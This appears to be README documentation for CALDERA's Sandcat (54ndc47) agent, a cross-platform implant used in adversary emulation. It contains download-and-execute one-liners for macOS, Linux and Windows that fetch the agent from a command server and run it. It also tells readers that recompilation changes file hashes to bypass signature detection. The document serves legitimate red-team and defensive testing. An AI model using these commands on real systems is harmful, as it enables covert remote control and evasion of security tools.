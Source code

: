 Plugin: sandcat
============

The Sandcat plugin, otherwise known as 54ndc47, is the default agent that CALDERA ships with. 54ndc47 is currently written in GoLang for cross-platform compatibility. 

54ndc47 agents require network connectivity to CALDERA at port 8888.

## Deploy 

To deploy 54ndc47, use one of the built-in delivery commands which allows you to run the agent on any operating system. Each of these commands downloads the compiled 54ndc47 executable from CALDERA and runs it immediately:

> You can also go to the plugins -> sandcat GUI page and view these same delivery commands, along with a few other customized options. The delivery commands available there include a few extra goodies, such as persistence and the automatic renaming of the sandcat executable to a random name.

**OSX**:
```
curl -sk -X POST -H 'file:sandcat.go' -H 'platform:darwin' http://localhost:8888/file/download > /tmp/sandcat-darwin && chmod +x /tmp/sandcat-darwin && /tmp/sandcat-darwin -server http://localhost:8888 -group my_group -v; 
```

**Linux**:
```
curl -sk -X POST -H 'file:sandcat.go' -H 'platform:linux' http://localhost:8888/file/download > /tmp/sandcat-linux && chmod +x /tmp/sandcat-linux && /tmp/sandcat-linux -server http://localhost:8888 -group my_group -v; 
```

**Windows / PowerShell**:
```
$url="http://localhost:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe -server http://localhost:8888 -group my_group -v;
```

**Windows / Command Prompt**:
```
$url="http://localhost:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);cmd.exe /c C:\Users\Public\sandcat.exe -server http://localhost:8888 -group my_group -executor cmd -v;
```
Once the agent is running, it should show log messages when it beacons into CALDERA.

> If you have GoLang installed on the CALDERA server, each time you run one of the delivery commands above, the agent will re-compile itself dynamically and it will change it's source code so it gets a different file hash (MD5). This will help bypass file-based signature detections.

## Options

When deploying a 54ndc47 agent, there are optional parameters you can use when you start the executable:

* **Server**: This is the location of CALDERA. The agent must have connectivity to this host/port. 
* **Group**: This is the group name that you would like the agent to join when it starts. The group does not have to exist. A default group of my_group will be used if none is passed in.
* **Executors**: A comma-separated list of execution engines to use. On MacOS and Linux, sh is the only option (and the default if this parameter is not passed in). On Windows, psh (PowerShell), cmd (command prompt) and pwsh (open-source PowerShell core) are the options, with psh the default.
* **v**(new): Use `-v` to see verbose output from sandcat.  Otherwise, sandcat will run silently. 

### Customizing Default Options & Execution Without CLI Options

It's possible to customize the default values of these options when pulling sandcat from the CALDERA server.  This is useful if your method of executing sandcat isn't friendly towards including the required options on the command line. The option to change and new values can be specified by adding HTTP headers to the web request: 

* server: specify a new default server. 

For example, the following will download a linux executable that will use `new_group` as a default group instead of `my_group` and have a default sleep interval of `5` seconds instead of `60`.  

```
curl -sk -X POST -H 'file:sandcat.go' -H 'platform:linux' -H 'defaultGroup:new_group' -H 'defaultSleep:5' http://localhost:8888/file/download
```

## Updating the agent

The 54ndc47 agent is compiled dynamically upon request (through the /file/download endpoint) as long as GoLang is installed on the server. Alternatively, you can compile the agent yourself by running one of the following commands:
```
GOOS=windows go build -o ../payloads/sandcat.go-windows -ldflags="-s -w" sandcat.go
GOOS=linux go build -o ../payloads/sandcat.go-linux -ldflags="-s -w" sandcat.go
GOOS=darwin go build -o ../payloads/sandcat.go-darwin -ldflags="-s -w" sandcat.go
```

> There is a script at the root of this plugin called update-agents.sh, which runs the above commands. 

For Windows computers, we assume 64-bit. If you are running 32-bit Windows, you'll want to compile the agent specifically for this. You can do this by running the following command before you run the compile command:
```
set GOARCH=386  
```
